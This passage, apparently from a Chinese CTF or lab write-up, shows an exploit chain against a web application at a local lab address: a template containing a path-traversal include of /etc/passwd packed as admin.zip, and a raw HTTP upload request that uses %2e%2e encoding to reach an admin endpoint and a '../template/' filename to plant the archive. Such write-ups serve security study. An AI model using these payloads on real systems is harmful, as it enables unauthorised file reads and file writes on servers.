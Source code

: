 ![图片](assets/1701827499-65fa90656d202b57a3c29df46ae53970.png "null")

image.png

所以，我们编写一个 hello.html，并将其打包为 admin.zip

```bash
#include("../../../../../../../../../../../../../etc/passwd")
```

![图片](assets/1701827499-c2478824c6ebb5e5d7986fa40b00285d.png "null")

image.png

由于 python 的 request 会自动对%2e 做解码和路径归并，BurpSuite 的 Paste from file 经常出现文件内容损坏，所以这里选择使用 Yakit 发送：

```bash
POST /index/%2e%2e/admin/upload HTTP/1.1
Host: 192.168.59.190:32781
Content-Length: 184
Content-Type: multipart/form-data; boundary=------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn

--------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn
Content-Disposition: form-data; name="file"; filename="../template/admin.zip"

{{file(/path/to/admin.zip)}}
--------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn--
```
